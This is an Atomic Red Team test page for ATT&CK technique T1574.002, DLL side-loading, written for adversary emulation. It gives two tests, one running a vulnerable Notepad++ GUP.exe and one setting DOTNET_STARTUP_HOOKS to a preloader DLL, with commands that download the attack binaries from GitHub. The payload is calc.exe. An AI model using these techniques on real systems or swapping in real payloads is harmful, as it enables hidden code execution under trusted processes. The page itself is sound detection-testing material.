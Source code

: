# T1574.002 - DLL Side-Loading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/002)
<blockquote>Adversaries may execute their own malicious payloads by side-loading DLLs. Similar to [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001), side-loading involves hijacking which DLL a program loads. But rather than just planting the DLL within the search order of a program then waiting for the victim application to be invoked, adversaries may directly side-load their payloads by planting then invoking a legitimate application that executes their payload(s).

Side-loading takes advantage of the DLL search order used by the loader by positioning both the victim application and malicious payload(s) alongside each other. Adversaries likely use side-loading as a means of masking actions they perform under a legitimate, trusted, and potentially elevated system or software process. Benign executables used to side-load payloads may not be flagged during delivery and/or execution. Adversary payloads may also be encrypted/packed or otherwise obfuscated until loaded into the memory of the trusted process.(Citation: FireEye DLL Side-Loading)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary](#atomic-test-1---dll-side-loading-using-the-notepad-gupexe-binary)

- [Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable](#atomic-test-2---dll-side-loading-using-the-dotnet-startup-hook-environment-variable)


<br/>

## Atomic Test #1 - DLL Side-Loading using the Notepad++ GUP.exe binary
GUP is an open source signed binary used by Notepad++ for software updates, and is vulnerable to DLL Side-Loading, thus enabling the libcurl dll to be loaded.
Upon execution, calc.exe will be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 65526037-7079-44a9-bda1-2cb624838040





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | String | calculator.exe|
| gup_executable | GUP is an open source signed binary used by Notepad++ for software updates | Path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;GUP.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{gup_executable}
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Gup.exe binary must exist on disk at specified location (#{gup_executable})
##### Check Prereq Commands:
```powershell
if (Test-Path #{gup_executable}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{gup_executable}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/GUP.exe?raw=true" -OutFile "#{gup_executable}"
```




<br/>
<br/>

## Atomic Test #2 - DLL Side-Loading using the dotnet startup hook environment variable
Utilizing the dotnet_startup_hooks environment variable, this method allows for registering a global method in an assembly that will be executed whenever a .net core application is started. This unlocks a whole range of scenarios, from injecting a profiler to tweaking a static context in a given environment. [blog post](https://medium.com/criteo-engineering/c-have-some-fun-with-net-core-startup-hooks-498b9ad001e1)

**Supported Platforms:** Windows


**auto_generated_guid:** d322cdd7-7d60-46e3-9111-648848da7c02





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| process_name | Name of the created process | String | calculator.exe|
| preloader_dll | library for interfacing with the dotnet framework | Path | PathToAtomicsFolder&#92;T1574.002&#92;bin&#92;preloader.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set DOTNET_STARTUP_HOOKS=#{preloader_dll}
dotnet -h > nul
echo.
```

#### Cleanup Commands:
```cmd
taskkill /F /IM #{process_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: .Net SDK must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path "C:\Program Files\dotnet\dotnet.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
winget install Microsoft.DotNet.SDK.6 --accept-source-agreements --accept-package-agreements -h > $null
echo.
```
##### Description: preloader must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "#{preloader_dll}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.002/bin/preloader?raw=true" -OutFile "#{preloader_dll}"
```




<br/>
